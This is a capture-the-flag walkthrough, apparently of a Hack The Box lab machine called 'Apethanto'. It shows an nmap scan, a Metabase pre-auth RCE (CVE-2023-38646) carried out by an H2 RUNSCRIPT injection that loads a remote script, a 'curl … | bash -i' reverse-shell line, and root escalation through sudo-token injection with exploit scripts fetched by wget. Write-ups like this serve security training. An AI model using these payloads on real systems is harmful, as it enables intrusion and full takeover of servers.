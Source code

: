 # Apethanto

```console
inte@debian-pc:~$ sudo nmap -p- --min-rate 4000 10.129.248.227
Nmap scan report for 10.129.248.227
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

```console
inte@debian-pc:~$ sudo nmap -sC -sV -p 22,80,3000 -oN apethanto.nmap 10.129.248.227
Nmap scan report for 10.129.248.227
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://apethanto.htb/
|_http-server-header: nginx/1.18.0
3000/tcp open  http    Jetty 11.0.14
|_http-title: Metabase
|_http-server-header: Jetty(11.0.14)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Based on `nmap` report, `/etc/hosts` has to be updated with a new entry:

```text
10.129.248.88 apethanto.htb
```

<http://apethanto.htb/> is a static website.  
The URL <http://metabase.apethanto.htb/> can be found on homepage; the previous entry in `/etc/hosts` needs to be revised:

```text
10.129.248.88 apethanto.htb metabase.apethanto.htb
```

<http://metabase.apethanto.htb/> is running an instance of Metabase, same as <http://apethanto.htb:3000>  
Recent Metabase CVE vulnerability with pre-auth RCE: <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>  
From <http://metabase.apethanto.htb/api/session/properties> the version v0.46.6 can be found (vulnerable).  
The `setup-token`: `819139a8-1ce9-46f0-acf8-9b4fc0d1164b` can also be found.

The vulnerability's public PoCs prove ineffective, suggesting that the instance has been configured with variations from defaults.  
The previously mentioned Assetnote blog hints to other more generic approaches.  
I wrote another PoC based on existing ones and incorporated other approaches into it.  
After several minutes of debugging, an alternate approach worked for RCE.

The key ideas:

- Using a `mem` DB instead of the zip URI as mentioned in <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- Using the diacritic character `ı` instead of `I` to bypass filter (<https://twitter.com/reginaldojsf/status/1684728514170191872>)
- Fixing the java errors as stated in JDBC responses

The H2 database query:

```text
mem:;ıNIT=RUNSCRIPT FROM 'http://10.10.14.80:8000/poc.sql'//\;
```

Queries in `poc.sql`:

```text
"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {{Runtime.getRuntime().exec(cmd);return \"a\";}}';CALL EXEC ('bash -c {{curl,{lhost}:{lport}/payload}}|{{bash,-i}}')"
```

`payload` is a bash reverse shell one-liner.

**Note**: Above queries have extraneous `\` or `{{` for escaping quotes in JSON or other characters within Python f-strings.  
As a result, the provided payloads would not work when used with `curl` or `BurpSuite` without adjustments.

Full exploit script: [metabase_preauth_rce.py](metabase_preauth_rce.py)

```console
inte@debian-pc:~$ python3 metabase_preauth_rce.py
LHOST: 10.10.14.80
Version: {'date': '2023-06-29', 'tag': 'v0.46.6', 'branch': 'release-x.46.x', 'hash': '1bb88f5'}
Token: 819139a8-1ce9-46f0-acf8-9b4fc0d1164b
10.129.248.88 - - [10/Dec/2023 16:51:02] "GET /poc.sql HTTP/1.1" 200 -

10.129.248.88 - - [10/Dec/2023 16:51:04] "GET /payload HTTP/1.1" 200 -
```

After receiving the reverse shell, upgrade it:

```console
metabase@Apethanto:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
metabase@Apethanto:~$ ^Z
inte@debian-pc:~$ stty raw -echo; fg
metabase@Apethanto:~$ stty rows 24 cols 80
metabase@Apethanto:~$ export TERM=xterm-256color
metabase@Apethanto:~$ exec /bin/bash
```

```console
metabase@Apethanto:~$ id
uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```

Being a member of the `sudo` group grants the ability to execute any OS command as root. However, the user's password is not known.

[pspy](https://github.com/DominicBreuker/pspy) can be used to monitor cron jobs.

```text
2023/12/10 11:25:46 CMD: UID=0     PID=3677   | sudo -u metabase -i 
2023/12/10 11:25:46 CMD: UID=998   PID=3678   | -bash 
2023/12/10 11:25:46 CMD: UID=998   PID=3679   | -bash 
2023/12/10 11:25:46 CMD: UID=998   PID=3680   | 
2023/12/10 11:25:46 CMD: UID=0     PID=3681   | sudo apt update 
2023/12/10 11:25:46 CMD: UID=0     PID=3682   | apt update 
```

A root cron job is running `sudo apt update` as the user `metabase`.  
This scenario matches the one mentioned in <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens>  
A shell as user with `sudo` privileges is available, password is unknown, and another session is running a command as the same user with `sudo`.

```console
metabase@Apethanto:~$ cat /proc/sys/kernel/yama/ptrace_scope
0
metabase@Apethanto:~$ which gdb
/usr/bin/gdb
```

`ptrace_scope` is set to 0, and even `gdb` is available.  
Therefore, [sudo_inject](https://github.com/nongiach/sudo_inject) can be used:

```console
metabase@Apethanto:~$ wget 10.10.14.80:8000/activate_sudo_token
metabase@Apethanto:~$ wget 10.10.14.80:8000/exploit_v2.sh
metabase@Apethanto:~$ chmod +x exploit_v2.sh 
metabase@Apethanto:~$ sudo bash
[sudo] password for metabase: 
sudo: a password is required
metabase@Apethanto:~$ ./exploit_v2.sh 
Creating suid shell in /tmp/sh
Current process : 1228
Injecting process 798 -> bash
Injecting process 801 -> bash
Injecting process 803 -> bash
Injecting process 804 -> bash
Injecting process 809 -> bash
Injecting process 1207 -> bash
```

The suid `sh` created in `/tmp` can be used to get shell as root:

```console
metabase@Apethanto:~$ /tmp/sh -p
# id
uid=998(metabase) gid=998(metabase) euid=0(root) egid=0(root) groups=0(root),27(sudo),998(metabase)
```
